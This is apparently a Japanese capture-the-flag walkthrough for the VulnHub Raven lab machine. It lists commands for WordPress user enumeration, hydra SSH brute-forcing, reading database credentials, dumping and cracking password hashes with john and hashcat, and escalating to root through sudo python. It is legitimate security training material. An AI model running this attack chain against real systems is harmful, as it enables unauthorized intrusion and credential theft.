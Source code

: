 ## Raven 683~

## 目的
- flag1.txt <- webサイト
- flag2.txt <- ターゲットのフォルダ
- flag3.txt *2 <- SQLの中
- flag4.txt *2 <- SQLの中とrootフォルダ
- 合計で6つを見つける
## 実践
### ポートスキャンまでは同じ
- フォルダを作る
- 環境変数に登録する
  

### Dirbでサイトを探す
- `dirb $URL -r`
  - `-r` 再帰的に調査しない。ここでは-rをつけないと終わらないのでつけている
  - 辞書ファイルを指定しないと、デフォルトの/usr/share/dirb/wordlists/common.txtファイルを使っている
  - ここでは使っていないが、`wordpress/wp-login.php`がある

### gobusterで探す(別解)
- Dirbと当然、同じディレクトリが出てくる。
  - メリット -> Dirbよりも速度が速いので、gobusterの方がいいかも
  - デメリット -> wordpressまでしか出てこないが、Dirbならwp-login.phpまで出てくる
### Webサイトを見て修正する
- `http://192.168.56.107/wordpress`ブラウザのパスを見て、wordpressが使われているのがわかる
- サイトが崩れているので直す。おそらくサイトの中でraben.localのリンクが使われていて、その名前解決ができなので崩れている
- `sudo vi /etc/hosts` 下のを書く
- `192.168.56.107 raven.local` 

### もう一度Webサイトを見てみる
- サイトで右クリック`view page source`を選択で`ctrl + f`で検索する

### WPScanでWordPressをチェックする
  - wpscanをインストールできるようにNATに接続する
  - `sudo gem install wpscan`
  - `wpscan --url 192.168.56.107/wordpress --enumerate u`
    - (上と同じ) `wpscan --url 192.168.56.107/wordpress --wp-content-dir -at -eu`
    - `-eu`はenumerate userの略 
  - wpscanで得た名前をnames.txtに書いておく。`cat > names.txt`
    ```
    michael
    steven
    ```
  - (参考) wordpressを使っているので、wigやdroopescanも使える


### Hydraでパスワード探す
- `sudo hydra ssh://192.168.56.107 -L names.txt -P /usr/share/john/password.lst -v -t 50`
  - `-t` 同時にタスクを動かせる数、16がデフォルト。数字が大きいほど速くなる。ただし、sshでは制限があるので、`-t 4`がリコメンドされている
- httpでなく、sshなので注意
- `michael`だけしかパスワードわからないので、そこで止める

### (参考) nmapでパスワードを探す
- `sudo nmap -p 22 --script ssh-brute --script-args userdb=names.txt,passdb=pass.txt`
  - passdb.txtはパスで指定できないので、同じディレクトリでないとだめ

### ~(参考) wpscanでパスワードを探す~
- ~wpscan --url $URL --passwords /usr/share/john/password.lst~
- ~これでできると思ったが、ここではsshの接続であってwordpressではなかったのでパスワードは出てこない~

### sshで接続
- `ssh michael@$IP`
  - password `michael` 

### システム内の探索
- ユーザmichaelで探索
- `sudo -l`
  - パスワードがわからない 
- SUIDをする
  - 特に使えるものはない 
- `cat /etc/passwd`
  - stevenという気になるユーザが見つかる 
- wordpressの設定ファイルにuser,passworを探す
  - `cd /var/www/html/wordpress/`
  - `cat wp-config.php`

### MySQLの設定情報を見る
- portを探す `netstat -antp`
- MySQLのデフォルトポートは3306なので、それを使う

### MySQLに接続
- `mysql -h localhost -u root -pR@v3nSecurity`
- `-p`オプションはパスワードだが、なぜかスペースなしで続けてパスワードを書く。そもそもパスワードをコマンドに書かない
- mysql> こんなプロンプトが返ってきたら成功
- 注意: MySQLはコマンドの最後に`;`をつけないとダメ
- データベースに何が入っているか表示する `show databases;`
- wordpressが気になるので移動して見る `use wordpress;`

### MySQLの探索
- wordpressの中身にどんなのがあるか調べてみる `show tables;` 
- wp_usersが気になるので見てみる  
  - `select * from wp_users\G`
  - selectはprintみたいなもの
  - \Gは綺麗に表示してくれる。なしでやってみたらわかる
- `select concat(user_login, ":", user_pass) from wp_users into outfile '/tmp/hash.txt';`
- wordpressのユーザ名とパスワードの書いたhash.txtが作成される。通常SQLでパスワードが保存されているときはハッシュ化
### MySQLをさらに探索
- ブログの記事を保存してあるテーブルを見る
  - `select * from wp_posts\G`
- `quit;`
### ParrotOS側のhash.txtにコピーする
- 通常パスワードの解析は攻撃側端末で行う理由は３つ
- 1. ターゲット端末にJohnがインストールされてることはない
  2. ターゲット端末に負荷がかかるので見つかる可能性がある
  3. 攻撃端末の方が高スペックである
- ターゲット端末のhash.txtをコピーして、ParrotOS側の新しい端末を起動してターミナルにペーストする
- (Raben) `cat /tmp/hash.txt`
- コピーする
- (Prrot) `cat > ~/vulnhub/Raben/hash.txt`
- ペーストする

### ハッシュ値の種類を調べる
- `hash-identifier '$P$~' ` stevenのハッシュ値をペーストする
- wordpressのmd5だとわかる
- 暗号解読には2種類の方法がある

### 暗号解読(1) John the ripper(ParrotOS側で)
- hash.txtの場所に移動して、またはhash.txtを絶対パスで指定して以下を実行 
- `sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
  - 過去に一度解析していたら以下のコマンドする
  - `sudo john --show hash.txt` 

### 暗号解読(2) hashcat(ParrotOS側で)
- hash.txtのstevenのハッシュ値をペースト
- `hashcat '$P$B~' /usr/share/wordlists/rockyou.txt -m 400`


### stevenに切り替える
- userのstevenのpasswordがわかるので切り替える。このパスワードは本来はWordPressにログインするためのパスワードだが、ユーザの切り替えでも使い回していると考えている
- `su steven`
- password`pink84`

### sudo -l
  - `sudo -l` Pythonがルート権限で使えるのを確認
### Pythonでrootシェルを取得
  - `sudo /usr/bin/python`
  - ここでPythonのプログラムが起動する。Pythonはシェルを起動できるので、Pythonで起動したものはrootになれる
  - `import os`
  - `os.system('/bin/bash')`
### ルートフラグを開く
  - `cd /root`
  - `cat flag4.txt`    
